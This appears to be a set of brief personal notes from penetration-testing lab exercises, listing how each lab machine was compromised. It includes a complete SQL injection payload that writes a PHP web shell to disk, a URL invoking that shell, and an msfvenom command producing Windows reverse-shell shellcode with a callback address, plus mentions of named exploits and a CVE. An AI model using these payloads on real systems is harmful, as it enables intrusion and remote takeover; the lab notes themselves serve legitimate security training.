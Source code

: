 ### 10.3.2.4

added the ip to /etc/hosts
scanned the website using wpscan
exploited sqli using sqlmap
uploaded reverse shell using wordpress plugin
got user as www-root
flag.txt in /var/www

### 10.3.2.5

email subscribe field in home page
boolean based sqli in post request with item mail-list
write php shell to file using sql injection
mail-list=' UNION SELECT null, null, null, null,"<?php echo system($_GET['cmd']);?>", null  INTO OUTFILE "/var/www/html/web1.php" -- //
http://forestsave.lab/web1.php?cmd=cat%20../flag.txt


### 10.3.2.7
SQLi in login 
xp_cmdshell working
uploaded powershell reverse shell and got reverse connection

### 11.3.1.3

Follow the walkthrough

### 12.4.1.1

Mouseserver exploit
49601

### 12.4.1.2

CVE : CVE-2021-41773

### 12.4.1.3

all port scan using nmap 
james smtp server running use exploit 50347
change port numbers according to nmap

### 13.2.3.2

same as walkthrough of fixing web exploits
took reverse shell using bash one liner reverse shell passing in cmd param

### 13.2.3.3
directory brute force with common.txt and big.txt no results

used exploit 46481 and used any jpeg image

### 13.2.3.4

found port 20000
enumerated port further with nmap -A and nmap -sV
easy chat server running 
tried with application locally
only changed payload with stageless reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.217 LPORT=1990 -f python -b "\x00\x20" -v shellcode
fire